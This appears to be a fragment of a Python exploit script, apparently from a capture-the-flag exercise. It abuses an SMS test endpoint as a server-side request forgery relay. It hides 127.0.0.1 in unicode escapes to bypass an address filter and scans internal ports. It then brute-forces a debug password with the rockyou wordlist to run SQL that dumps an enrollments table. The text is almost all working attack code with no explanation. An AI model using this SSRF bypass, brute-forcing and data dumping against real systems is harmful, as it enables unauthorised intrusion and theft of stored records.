 ```python
    response = urlopen(
        Request(
            "http://167.99.94.114:31956/api/sms/test",
            data=dumps(
                {
                    "verb": "POST",
                    "url": f"http://\u0031\u0032\u0037\u002e\u0030\u002e\u0030\u002e\u0031:{x}/debug/sql/exec", # "http://167.99.94.114:31956/debug/sql/exec",
                    "params": dumps({"sql": "select * from enrollments;","password": "DEBUG_PASS"}),
                    "headers": "Content-Type: application/json\r\nCookie: session=" + jwt,
                    "resp_ok": "<status>ok</status>",
                    "resp_bad": "<status>error</status>"
                }
            ).encode(), # .replace(b'127.0.0.1', b'\\u0031\\u0032\\u0037\\u002e\\u0030\\u002e\\u0030\\u002e\\u0031')
            headers={'Content-Type': 'application/json', 'Cookie': 'session=' + jwt},
            method='POST',
        )
    )
    print(x)
    data = response.read()
    if data != b'{"status":"fail","result":"Address is unreachable"}':
        print(data)
        break

# port 1337 b'{"status":"fail","result":"{\\"message\\":\\"Invalid debug password supplied!\\"}"}'

passwords = open('rockyou.txt', 'r')
c = 0
# for password in passwords:
#     c += 1
#     if password == "babygirl143\n":
#         break

for password in passwords:
    c += 1
    response = urlopen(
        Request(
            "http://167.99.94.114:31956/api/sms/test",
            data=dumps(
                {
                    "verb": "POST",
                    "url": f"http://\u0031\u0032\u0037\u002e\u0030\u002e\u0030\u002e\u0031:1337/debug/sql/exec", # "http://167.99.94.114:31956/debug/sql/exec",
                    "params": dumps({"sql": "select * from enrollments;","password": password[:-1]}),
                    "headers": "Content-Type: application/json\r\nCookie: session=" + jwt,
                    "resp_ok": "<status>ok</status>",
                    "resp_bad": "<status>error</status>"
                }
            ).encode(), # .replace(b'127.0.0.1', b'\\u0031\\u0032\\u0037\\u002e\\u0030\\u002e\\u0030\\u002e\\u0031')
            headers={'Content-Type': 'application/json', 'Cookie': 'session=' + jwt},
            method='POST',
        )
    )
    print(c, password[:-1])
    data = response.read()
    if data != b'{"status":"fail","result":"{\\"message\\":\\"Invalid debug password supplied!\\"}"}':
        print(data)
        break
```
